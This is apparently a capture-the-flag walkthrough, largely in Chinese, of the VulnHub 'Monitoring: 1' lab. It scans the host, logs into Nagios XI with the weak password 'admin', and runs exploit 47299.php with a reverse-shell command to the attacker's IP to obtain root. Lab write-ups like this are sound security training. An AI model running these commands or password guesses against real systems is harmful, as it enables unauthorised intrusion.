 # Monitoring: 1

2024-5-19 https://www.vulnhub.com/entry/monitoring-1,555/

difficulty: Easy

## IP

192.168.10.182

## Scan

Open Port -> 22,25,80,389,443,5667

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
5667/tcp open  tcpwrapped
```

web 服务开了 2 个端口：80 和 443，先看看 80 上有什么，是一个 Nagios 监控系统， http://192.168.10.182/index.php 是系统的登陆地址，在网上找到了 Nagios 默认凭据：nagiosadmin:nagiosadmin，但是没有成功。根据靶场的描述，比较简单，估计有可能是弱密码，经过尝试发现密码为 admin，可以登陆成功，现在就需要借助这个系统，通过 webshell 进入到后台系统。

nagiosadmin:admin 登陆到后台管理页面后，在左下角发现了版本信息 Nagios XI 5.6.0，于是开始寻找这个版本的可利用信息。

searchsploit 中找到相关利用 exp：Nagios XI 5.6.5 - Remote Code Execution / Root Privilege Escalation | php/webapps/47299.php

安装 php 相关插件，kali 上默认没有：

```
sudo apt-get install php-curl
sudo apt-get install php-dom
```

运行 exp 报错：

```
php 47299.php --host=192.168.10.182 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.10.3 --reverseport=8888

cookie.txt already exists - delete prior to running
```

解决方法：将 22 行代码注释 // checkCookie();

同时在 kali 上监听 8888 端口，再次执行，得到了反弹的 shell。

得到的就是 root 权限：

```
root@ubuntu:/home# id
uid=0(root) gid=0(root) groups=0(root)

root@ubuntu:~# cat proof.txt
SunCSR.Team.3.af6d45da1f1181347b9e2139f23c6a5b
```
